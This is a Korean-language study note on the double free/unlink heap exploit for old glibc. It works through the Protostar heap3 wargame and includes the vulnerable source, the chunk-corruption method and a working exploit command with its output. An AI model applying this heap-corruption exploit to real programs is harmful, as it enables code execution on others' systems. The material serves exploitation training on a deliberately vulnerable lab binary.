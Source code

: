 # **Double Free Bug**

Free를 두 번할 경우 발생하는 버그이다.

Free가 호출될 때 인접한 Free Chunk가 있다면 더 큰 Free Chunk로 병합된다.

Chunk가 병합될 때 unlink 매크로가 발생한다. unlink 매크로를 통해 원하는 공간에 원하는 값을 입력할 수 있다.

unlink를 공격하는 방법은 glibc 2.3.2 버전 이하에서만 가능하다.

```c
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

```
FD = *P + 8;
BK = *P + 12;
FD + 12 = BK;
BK + 8 = FD;
```

![unlink](/Resources/img/double_free_bug_unlink.jpeg)

## **Proof of Concept**

### **Protostar의 heap3**

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
int main(int argc, char **argv)
{
  char *a, *b, *c;
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
  free(c);
  free(b);
  free(a);
  printf("dynamite failed?\n");
}
```

strcpy(a,argv[1])에서 Overflow를 통해 b의 **P flag**와 **pre_size** 값을 변조한다.  

**P flag 변조**
* P flag가 0이라는 뜻은 b가 free될 때 a chunk와 병합이 일어난다는 뜻이다. 
* 따라서 P flag를 0으로 변조시키면 unlink 매크로가 발생한다. 
* unlink가 실행되면 fd가 가리키는 주소의 + 12 지점에 bk가 입력되고 bk가 가리키는 주소의 + 8 지점에 fd가 입력되어 임의의 주소에 원하는 값을 입력할 수 있다.

**pre_size 변조**
* Heap에서 이전 Chunk의 주소값은 "&b - pre_size"로 표현된다.
* pre_size 값을 0xfffffffc(-4)로 변조할 경우 &b + 4 byte가 된다.
* 생성한 가짜 Chunk는 우리가 입력할 수 있는 공간이기 때문에 fd와 bk를 조작할 수 있다.

### **Exploit Method**

1. a에 "push puts@got ; ret" 코드 삽입 및 \xfc\xff\xff\xff로 pre_size, size 변조
1. 가짜 Chunk의 fd 위치에 puts@got - 12를 삽입하고 bk에는 해당 code를 가리키는 주소값을 입력한다. 

## **Exploit**

```
root@protostar:/home/protostar# ./heap3 $(python -c 'print "\x90"*22+"\x68\x64\x88\x04\x08\xc3"+"A"*4+"\xfc\xff\xff\xff"+"\xfc\xff\xff\xff"') $(python -c 'print "A"*4+"\x1c\xb1\x04\x08"+"\x10\xc0\x04\x08"') C
that wasn't too bad now, was it? @ 1577555750
```

**References**  
<http://index-of.co.uk/Reverse-Engineering/Double%20Free%20Bug%20%5Bseoty-_-v%5D.pdf>  
<https://medium.com/@airman604/protostar-heap-3-walkthrough-56d9334bcd13>  
<https://itsaessak.tistory.com/136> 